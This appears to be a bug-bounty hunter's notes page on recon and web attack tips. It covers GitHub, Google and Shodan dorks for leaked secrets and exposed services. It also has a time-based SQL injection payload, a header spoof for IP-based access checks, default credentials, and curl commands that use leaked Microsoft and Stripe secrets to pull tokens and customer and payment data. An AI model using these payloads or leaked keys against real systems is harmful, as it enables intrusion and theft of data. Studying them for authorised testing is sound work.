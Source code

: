 ```yaml
---
tags:
  - web-app-security
---
```

- **Github-Dorking**
    
    ```bash
    # Methodology 
    “site.com” :
    here you add your program you wanna search ((you can put “site.com”)) ((“sub.site.com”)) ((“site” only))
    but site name like these ((site-site.com))and have these ((-)) the dork without ((“ “ ))
    # Keywords # password — passwd — pwd — secret — private — Ldap
    Jenkins
    OTP
    oauth
    authoriztion
    password
    pwd
    ftp
    dotfiles
    JDBC
    key-keys
    send_key-keys
    send,key-keys
    token
    user
    login-singin
    passkey-passkeys
    pass
    secret
    SecretAccessKey
    app_AWS_SECRET_ACCESS_KEY AWS_SECRET_ACCESS_KEY
    credentials
    config
    security_credentials
    connectionstring
    ssh2_auth_password
    DB_PASSWORD
    # good Dorks 
    <https://github.com/techgaun/github-dorks/blob/master/github-dorks.txt>
    
    # NOT: **capital**
    like www.bugcrowd.com is repeated ?? -> use “bugcrowd.com” NOT www.bugcrowd ((but in NOT dont add .com))
    example: “paypal” language:python password NOT sandbox.paypal NOT api.paypal NOT www.paypal NOT gmail.com NOT yahoo.com NOT hotmail.com NOT test
    
    # user ? # see if he work for this company 
    orwa atyat bugcrowd linkedin
    user:orwagodfather linkedin 
    user:orwagodfather full name
    user:orwagodfather https://
    user:orwagodfather Ldap
    
    # if you wanna know about some internal links in org you can do like these
    org:bugcrowd https://
    org:bugcrowd host:
    ```
    
- **Google-Dorking**
    
    ```bash
    #!/bin/bash
    
    # Google dorks helper
    #<https://dorks.faisalahmed.me/>
    # Check that a domain has been provided
    if [ -z "$1" ]; then
      echo "Usage: $0 <domain>"
      exit 1
    fi
    
    # Check that ggldorks.txt exists
    if [ ! -f "ggldorks.txt" ]; then
      echo "Error: ggldorks.txt not found"
      exit 1
    fi
    
    # Loop through each line in ggldorks.txt
    while read dork; do
      # Search for the dork on Google
      results=$(curl -s "<https://www.google.com/search?q=site%3A$1+$>{dork// /+}")
    
      # Check if there were any results
      if [[ $results =~ "did not match any documents" ]]; then
        echo "No results for \\"$dork\\""
      else
        # Save the URL and dork to results.txt
        echo "$dork: $1" >> results.txt
      fi
    done < ggldorks.txt
    ```
    
- **Shodan-Dorking**
    
    ```python
    ssl:"<ssl_for_target>"
    ssl.cert.subject.CN:"<specific_hos_name_>"
    # go to <more> option and see the filters like http.title
    ssl.cert.subject.CN:"<specific_hos_name_>" http.title:"<title>"   # exclude -http.title:"Invalid URL"
    ssl.cert.subject.CN:"<specific_hos_name_>" -http.title:"Invalid URL" 401
    ```
    
    - [ ] Big IP shodan Search:—> `http.title:"BIG-IP&reg;-Redirect" org:Org`
    - [ ] CVE 2020-3452 → `http.html_hash:-628873716 “set-cookie: webvpn;”`
    - [ ] CVE CVE-2019-11510 → `http.html:/dana-na/`
    - [ ] CVE-2020–5902→ `inurl:/tmui/login.jsp`
    - [ ] **Databases**
        - [ ] `"MongoDB Server Information" port:27017 -authentication`
        - [ ] `"Set-Cookie: mongo-express=" "200 OK"`
        - [ ] `mysql port:"3306"`
        - [ ] `port:"9200" all:"elastic indices"`
        - [ ] `port:5432 PostgreSQL`****
        - [ ] `Port:5985,6984` → couchDB
        - [ ] `Port:9042,9160` → CassandraDB
        - [ ] `port:8291 os:"MikroTik RouterOS 6.45.9"`
        - [ ] `port:5006,5007 product:mitsubishi`
    - [ ] **Exposed ports**
        - [ ] `proftpd port:21` [**FTP, querying for proftpd, a popular FTP server]**
        - [ ] `"220" "230 Login successful." port:21` [To look for **FTP servers** that allow anonymous logins:]
        - [ ] `openssh port:22` [To query for **OpenSSH**, a popular SSH server:]
        - [ ] `port:"23"` [For **Telnet**, querying for port 23:]
        - [ ] `port:"25" product:"exim"`[To look up **EXIM-powered** mail servers on port 25:]
        - [ ] `port:"11211" product:"Memcached"` [**Memcached**]
        - [ ] `"X-Jenkins" "Set-Cookie: JSESSIONID" http.title:"Dashboard"`[**Jenkins**]****
- [ ] `**GET /admin` → blocked | `TRACE /admin` → 200**
    
    ```jsx
    + some info disclosed “Notice that the X-Custom-IP-Authorizationheader, containing your IP address” 
    "Proxy" > "Options", scroll down to the "Match and Replace" section, and click "Add". Leave the match condition blank, but in the "Replace" field, enter:
    X-Custom-IP-Authorization: 127.0.0.1
    ```
    
- [ ] `**cat iplist| httpx -silent -path /xmlrpc.php -title -match-string "XML-RPC”` → [hackerone.com/reports/1890719](http://hackerone.com/reports/1890719)**
    
- [ ] `**/sitemap.xml?offset=1;SELECT IF((8303>8302),SLEEP(9),2356)#**`
    
- [ ] **Have you ever heard about `wc-db` file disclosure?! -> `https://target[.]com/.svn/wc.db`**
    
- [ ] **change `POST` request for sensitive data to `GET` request may be u get `missing authorization policy` bug .**
    
- [ ] [`https://target](<https://target/>)[.]com/wp-content/debug.log`
    

```jsx
f you happen to find Symfony Web Framework that has Symfony profiler debug mode enabled, fuzz the following endpoints:

- /app_dev.php
- /app_dev.php/_profiler/phpinfo
- /app_dev.php/_profiler
- Look for "profiler token" in phpinfo()
```

- [ ] $500 for authentication bypass and reading internal files. Tip: fuzz for special and unicode characters. `/admin/files` --> `302 /authFailure` `/adminFUZZ/files` --> `200` `/admin/FUZZ/files` --> `200`
    
- [ ] Found a Google Map API Key? Follow these steps with me! Google Map API Key starts with "AIzxxxxxxxxxxxxxx" Download this tool for making a clear PoC:
    
    [Abdelrhman Allam on Twitter: "#thread #bugbountytips #googlemapapikey #recon 🧵 Found a Google Map API Key? Follow these steps with me! Google Map API Key starts with "AIzxxxxxxxxxxxxxx" Download this tool for making a clear PoC:](https://twitter.com/sl4x0/status/1651984408843284482?t=BxPfwOqcp-p0fhpXy39KSA&s=19) [https://t.co/22kG7YfJzY](https://t.co/22kG7YfJzY)" / Twitter
    
    [github.comGitHub - ozguralp/gmapsapiscannerContribute to ozguralp/gmapsapiscanner development by creating an account on GitHub.](https://t.co/22kG7YfJzY)
    
- [ ] Apache Karaf Web Console Default Credentials! → `karaf:karaf`
    
- [ ] I found client id & client secret for Microsoft tenant in js file in website → **POC**
    
    ```jsx
    curl -X POST -H "Content-Type: application/x-www-form-urlencoded" -d 'client_id=<CLIENT_ID>&scope=https%3A%2F%[<http://2Fgraph.microsoft.com>](<https://t.co/z2eWOQCENa>)%2F.default&client_secret=<CLIENT_SECRET>&grant_type=client_credentials' '[<https://login.microsoftonline.com>](<https://t.co/fCJczh6J7f>)<TENANT_ID>/oauth2/v2.0/token'
    ```
    
    - [ **Leaking stripe live token ]**
        
        1. He collected all the subdomains using tools like `Subfinder` and `Amass`. After that, he filtered the live subdomains using `httprobe`.
        2. Found a subdomain [](http://admin.redacted.com/)[http://admin.redacted.com](http://admin.redacted.com) which redirects the **user/admin** to google OAuth
            1. Your browser can execute JavaScript, which can, in turn, change the document; in this case, it redirects to **google OAuth.**
        3. After this, he used curl for [](http://admin.redacted.com/)[http://admin.redacted.com](http://admin.redacted.com) to get the plain original output and nothing else.
        
        ⇒ **Leaking stripe live token**
        
        ![https://user-images.githubusercontent.com/108616378/219940019-ba476ee4-4820-42a4-8d50-a08845dd1a40.png](https://user-images.githubusercontent.com/108616378/219940019-ba476ee4-4820-42a4-8d50-a08845dd1a40.png)
        
        ### **⇒ [ Exploiting Stripe Tokens ]**
        
        After checking the `Keyhacks` and the `Stripe API Documentation`. I was able to get a bunch of information, including:
        
        ```
        # Balance: It retrieves the current balance in the Stripe account.
        curl [<https://api.stripe.com/v1/balance>](<https://t.co/NrdwZz2XOp>) -u sk_live_<Secret-Key>:
        # Customers: It retrieves the customer’s data and tracks payments. Including the Customer’s Name, Email, IP used, and many more
        curl <https://api.stripe.com/v1/customers> -u sk_live_<Secret-Key>:
        #Charges: It retrieves charges and card information. One such card details are also attached below. Stripe only gives you the last four digits.
        curl <https://api.stripe.com/v1/charges> -u sk_live_<Secret-Key>:
        #Files: Retrieves Files that the admin uploads. Files generally have invoices, disputes, events, balances, bank accounts, tokens, charges, and more.
        curl <https://api.stripe.com/v1/files> -u sk_live_<Secret-Key>:
        ```
        
        ![https://user-images.githubusercontent.com/108616378/219940030-24b3095a-47cf-4278-b87d-66ef3830bbe7.png](https://user-images.githubusercontent.com/108616378/219940030-24b3095a-47cf-4278-b87d-66ef3830bbe7.png)
